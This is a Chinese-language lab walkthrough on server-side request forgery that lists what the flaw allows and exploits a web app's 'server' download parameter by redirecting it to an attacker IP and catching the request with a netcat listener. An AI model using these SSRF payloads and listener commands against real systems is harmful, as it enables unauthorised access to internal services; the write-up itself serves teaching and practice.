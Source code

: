 ```shell
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

这是SSRF漏洞的一个非常基础的案例，实际上SSRF可以用来做更多的事情，根据每个场景的情况，SSRF一般可用于：

* 枚举内部网络，包括IP地址和端口等信息；
* 滥用服务器之间的信任关系，并获取对其他受限服务的访问权限；
* 与一些非HTTP服务交互以实现远程代码执行(RCE)。

接下来，让我们通过实例来快速了解一下如何使用SSRF来滥用某些信任关系。

### 答题

部署目标虚拟机，使用攻击机上的浏览器导航至`http://MACHINE_IP:8087/`(10.10.206.41:8087)页面，我们将在该页面找到一个简单的Web应用程序，经过一番探索之后，我们可以看到一个admin区域，这将会是我们的主要测试目标。

探索目标站点，我们可以发现唯一允许访问admin区域的主机：

![image-20240110000348310](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240110000348310.png)

> 唯一允许访问管理区域的主机是：localhost

检查"Download Resume"按钮，查看相关外链的server(服务器)参数指向何处：

![image-20240110000503770](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240110000503770.png)

![image-20240110000622528](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240110000622528.png)

![image-20240110002257509](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240110002257509.png)

> "/download?server=secure-file-storage.com:8087\&id=75482342"
>
> server参数指向的是：secure-file-storage.com

利用SSRF漏洞，使得Web应用程序将请求转发到AttackBox或本地攻击机。

我们刚才找到了一个外部链接`http://10.10.206.41:8087/download?server=secure-file-storage.com:8087&id=75482342`，将其中的server参数的值指向我们的攻击机IP地址即可实现对SSRF漏洞的利用。

![image-20240110000937193](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240110000937193.png)

我们先在攻击机终端设置一个netcat端口监听器：

```shell
nc -lvnp 8087
```

![image-20240110001247077](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240110001247077.png)

然后再使用浏览器去访问替换了server参数的链接：`http://10.10.206.41:8087/download?server=10.11.15.168:8087&id=75482342`

